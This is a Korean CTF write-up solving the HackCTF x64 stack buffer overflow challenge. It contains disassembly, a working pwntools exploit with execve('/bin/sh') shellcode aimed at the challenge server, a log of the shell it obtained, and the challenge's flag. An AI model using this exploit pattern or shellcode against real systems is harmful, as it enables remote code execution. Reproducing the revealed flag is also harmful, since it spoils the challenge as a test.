 #x64 Simple\_size\_BOF

---


`main()`의 코드는 다음과 같다.

```assembly
gdb-peda$ pd main
Dump of assembler code for function main:
   0x0000000000400636 <+0>:	push   rbp
   0x0000000000400637 <+1>:	mov    rbp,rsp
   0x000000000040063a <+4>:	sub    rsp,0x6d30
   0x0000000000400641 <+11>:	mov    rax,QWORD PTR [rip+0x200a08]        # 0x601050 <stdout@@GLIBC_2.2.5>
   0x0000000000400648 <+18>:	mov    ecx,0x0
   0x000000000040064d <+23>:	mov    edx,0x2
   0x0000000000400652 <+28>:	mov    esi,0x0
   0x0000000000400657 <+33>:	mov    rdi,rax
   0x000000000040065a <+36>:	call   0x400520 <setvbuf@plt>
   0x000000000040065f <+41>:	mov    edi,0x400728
   0x0000000000400664 <+46>:	call   0x4004e0 <puts@plt>
   0x0000000000400669 <+51>:	lea    rax,[rbp-0x6d30]
   0x0000000000400670 <+58>:	mov    rsi,rax
   0x0000000000400673 <+61>:	mov    edi,0x40074e
   0x0000000000400678 <+66>:	mov    eax,0x0
   0x000000000040067d <+71>:	call   0x4004f0 <printf@plt>
   0x0000000000400682 <+76>:	lea    rax,[rbp-0x6d30]
   0x0000000000400689 <+83>:	mov    rdi,rax
   0x000000000040068c <+86>:	mov    eax,0x0
   0x0000000000400691 <+91>:	call   0x400510 <gets@plt>
   0x0000000000400696 <+96>:	mov    eax,0x0
   0x000000000040069b <+101>:	leave  
   0x000000000040069c <+102>:	ret    
End of assembler dump.
```

    int __cdecl main(int argc, const char **argv, const char **envp)
    {
      char v4; // [rsp+0h] [rbp-6D30h]
    
      setvbuf(_bss_start, 0LL, 2, 0LL);
      puts(&s);
      printf("buf: %p\n", &v4);
      gets(&v4);
      return 0;
    }

이 문제에서는 buf의 주소를 준다. 때문에 buf와 `main()` ret address와의 거리를 구해서 ret address를 buf로 조정하고 buf에 shellcode를 담으면 쉽게 풀 수 있다.

`main()+76`을 보면 rbp-0x6d30에 문자열을 입력 받고 있다. 이곳이 buf의 주소다. 때문에 0x6d30에 SFP(8bytes)를 더한 27960만큼 채운 후 buf의 주소를 적어주면 될 것이다. 이를 위한 payload는 다음과 같다.

**[shellcode 25bytes] + [dummy 27935bytes] + [buf_address]**

다음과 같은 익스 코드를 통해서 익스할 수 있었다.

```python
from pwn import*

p=remote('ctf.j0n9hyun.xyz', 3005)

p.recvuntil('buf: ')

string=p.recv(14)
buf_address=int(string,16)

log.info(hex(buf_address))

payload='\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05'
payload+='A'*27937
payload+=p64(buf_address)

p.sendline(payload)

p.interactive()
```

이때 x86의 shellcode와 x64의 shellcode는 다르다는 점을 유의해야 한다.

    sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/6.x64_Simple_size_BOF$ python ex.py
    [+] Opening connection to ctf.j0n9hyun.xyz on port 3005: Done
    [*] 0x7fff06fe78d0
    [*] Switching to interactive mode
    
    $ whoami
    attack
    $ ls
    flag
    main
    $ cat flag
    HackCTF{s000000_5m4ll_4nd_5m4ll_51z3_b0f}



**flag: HackCTF{s000000_5m4ll_4nd_5m4ll_51z3_b0f}**
